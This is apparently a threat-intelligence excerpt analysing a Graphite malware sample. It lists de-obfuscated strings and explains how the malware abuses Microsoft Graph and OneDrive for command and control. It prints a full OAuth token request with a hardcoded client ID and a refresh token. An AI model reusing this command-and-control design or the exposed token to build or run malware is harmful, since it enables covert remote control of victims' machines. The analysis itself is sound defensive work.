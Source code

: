 

DE-OBFUSCATED STRINGS


\\.\root\CIMV2SELECT UUID FROM Win32_ComputerSystemProduct"WQL”L"UUID”"Unknown CLR”L"pwrshplugin.dll”L"kernel32.dll”"RtlGetVersion”"RtlRandomEx”"RtlIntegerToUnicodeString”"RtlDecompressBuffer”"RtlGetCompressionWorkSpaceSize”"RtlCompressBuffer”"RtlComputeCrc32”"Windows 2000”"Windows XP”"Windows XP Professional”"Windows Server 2003”"Windows Home Server”"Windows Server 2003 R2”"Windows Vista”"Windows Server 2008”"Windows Server 2008 R2”"Windows 7”"Windows Server 2012”"Windows 8”"Windows Server 2016”"Windows 10”"Unidentified”"64bit”"32bit”"NtQuerySystemInformation”"GetCLRVersionForPSVersion”"NtOpenThread”"NtAllocateVirtualMemory”"Shell of task = %d ended with code = %d”"User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:87.0) Gecko/20210101 Firefox/87.0”"User-Agent: “"chunked”"access_token”"refresh_token”"value”"file”"name”"/v1.0/drive/root:/%s/update/%s:/content”"/v1.0/drive/root:/%s/check/%s:/content”"/v1.0/drive/root:/%s/check/%s”"/v1.0/drive/root:/%s/check:/children”"/common/oauth2/v2.0/token”"login.microsoftonline.com""graph.microsoft.com""Content-Type: application/json”"Content-Type: application/x-www-form-urlencoded”"Content-Type: application/octet-stream”"Content-Type: application/xml”"client_id=%s&redirect_uri=urn:ietf:wg:oauth:2.0:oob&refresh_token=%s&grant_type=refresh_token”"Authorization: bearer “"DELETE”“GET”“POST”“PUT”L"ntdll.dll”L"secur32.dll”"NtOpenKey”"NtQueryValueKey”"NtSetValueKey”"NtClose”"RtlInitUnicodeString”"RtlFreeUnicodeString”L"\\Registry\\Machine\\SOFTWARE\\Microsoft\\Cryptography”L"MachineGuid”"Accept: /""Accept-Encoding: gzip, deflate”"User-Agent: Microsoft skyDriveSync %s ship”L"\\Registry\\User\\%s\\Control Panel\\International\\User Profile”L"Recharge”"RtlConvertSidToUnicodeString”"WTSQueryUserToken”"sprintf”




C&C COMMUNICATIONS
The malware communicates with the Command and Control (C&C) through the domain graph[.]Microsoft[.]com, i.e. abusing the Microsoft Graph service, which is the API Web RESTful that provides access to Microsoft Cloud service resources. Hence, the analysis showed that the sample in question is a version of the Graphite malware, a malware using the Microsoft Graph API and OneDrive for C&C communications. The malware is known to be deployed in-memory only and served as a downloader for the post-exploitation frameworks like Empire (as documented by Trellix researchers on early 2022 here). To obtain a new OAuth2 token to access the service, the endpoint login[.]microsoftonline[.]com/common/oauth2/v2.0/token is contacted using a fixed client ID (62272a08-fe9d-4825-bc65-203842ff92bc), as evidence below:

The following is the full HTTP request to make the first connection to the C&C.




HTTP REQUEST


POST https://login.microsoftonline.com/common/oauth2/v2.0/token HTTP/1.1User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729)Content-Type: application/x-www-form-urlencodedHost: login.microsoftonline.comContent-Length: 459Connection: Keep-AliveCache-Control: no-cacheclient_id=62272a08-fe9d-4825-bc65-203842ff92bc&redirect_uri=urn:ietf:wg:oauth:2.0:oob&refresh_token=M.R3_BAY.-CVmbPSAFzt2n5JiYAwjQRpC6Yh*f45Zsz9XKTHMo4G1ZeR0UDVRbJhp8T7Df*ARh8tTfRKRZZ8YzFEYMRJ!VPP!GJPZsfeTb0SMIF!gXQ0sUli*gTjLrdaTxOnwndJcUIqtbY8D8ZCFI4lC3pEE3KW7ED!svw*kKb1rojgehD1Sa70lDuVa86awTeZrh8lyBh9m9vdudqoqVNLyRpLyHd*di1s2G6ub9MjH9BVoDVrDaqmJvUsMonxqqhqx!iwwU1ptzd1WngCv9BCmVtxgFTJBPR1bJ2Ze17e0N6W3VHZC2FQOOUhu4nQ2Wrj0qLEBowQ$$&grant_type=refresh_token




Once obtained a new OAuth2 token, the Graphite malware will query the Microsoft GraphAPIs for new commands by enumerating the child files in the check OneDrive subdirectory. If a new file is found, the content is downloaded and decrypted through an AES-256-CBCdecryption algorithm. The monitoring of task executions and the uploading of their results is managed through a dedicated thread. Finally, the malware allows remote command execution by allocating a new region of memory and executing the received shellcode by calling a new dedicated thread.
CONCLUSIONS
According to extracted metadata, attackers worked on the preparation of the campaign between January and February 2022. However, both URLs used by attackers appared active even recently (Q3 2022). In addition could be interesting to note that, according to the visibility we can dispose of, limited telemetry hits related to the collected artifacts have been catched on 25/08/2022 and 09/09/2022 from two countries of the European Union (we have no data available before 25/08/2022). 

